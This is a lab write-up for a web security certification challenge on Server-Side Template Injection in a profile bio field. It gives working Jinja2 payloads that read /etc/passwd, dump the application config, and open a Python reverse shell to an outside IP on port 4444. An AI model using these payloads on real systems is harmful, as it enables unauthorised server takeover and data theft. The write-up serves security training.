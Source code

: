 ```yaml
---
title: Challenge 13:Reverse Shells Are Not for The Weak
date: 2024-05-14 05:00:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     # TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


### Challenge/Task

1. SSTI

**Proof-of-Concept (POC):**

Another injection type inside web application is Server-Side Template Injection (SSTI). SSTI is a type of security problem in websites or web applications. Imagine a website as a building made of many parts. One important part is called a "template," which is like a blueprint for how the website should look.

Now, sometimes, attackers can find a way to sneak their own instructions into these templates. It's a bit like someone sneaking a fake floor plan into a real building blueprint. When the website uses this fake plan, it could do things it's not supposed to, like showing secret information or even letting the attacker control parts of the website.

Usually, to test the SSTI we will insert {{}} syntax into these field or parameters. For example, enter {{ 7*7 }} into a bio field below:

![POC-otb](/img/cwae/rsa1.png){: w="400" h="400" }{: .normal }

Surprisingly, the 7*7 which is equal to 49 is reflected in the bio. That’s mean the parameter is vulnerable to SSTI.

How can attacker exploit this vulnerability? Inside {{}} syntax, attacker can put any command that will be executed by the server. First of all, we try to get the list of user by inserting below payload. It works

```jsx
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

![POC-otb](/img/cwae/rsa2.png){: w="400" h="400" }{: .normal }

Other sensitive info that we can retrieve is also the config by using payload below:
```jsx
{{config.items()}}
```

![POC-otb](/img/cwae/rsa3.png){: w="400" h="400" }{: .normal }

We will try to get a reverse shell from this vulnerability. Using below payload, we can get the reverse shell. But first, we have to setup our listener.

![POC-otb](/img/cwae/rsa4.png){: w="400" h="400" }{: .normal }

Then, we can send below payload to the bio input field. 
```jsx
{{''.__class__.__mro__[1].__subclasses__()[213](['python', '-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("143.198.205.200",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']) }}
```

![POC-otb](/img/cwae/rsa5.png){: w="400" h="400" }{: .normal }

After we click “update” button, our listener is starting to get the connection from the server. We are now inside the victim’s server. To prove it, I run id and whoami command showing that it belongs to the victims. 

![POC-otb](/img/cwae/rsa6.png){: w="400" h="400" }{: .normal }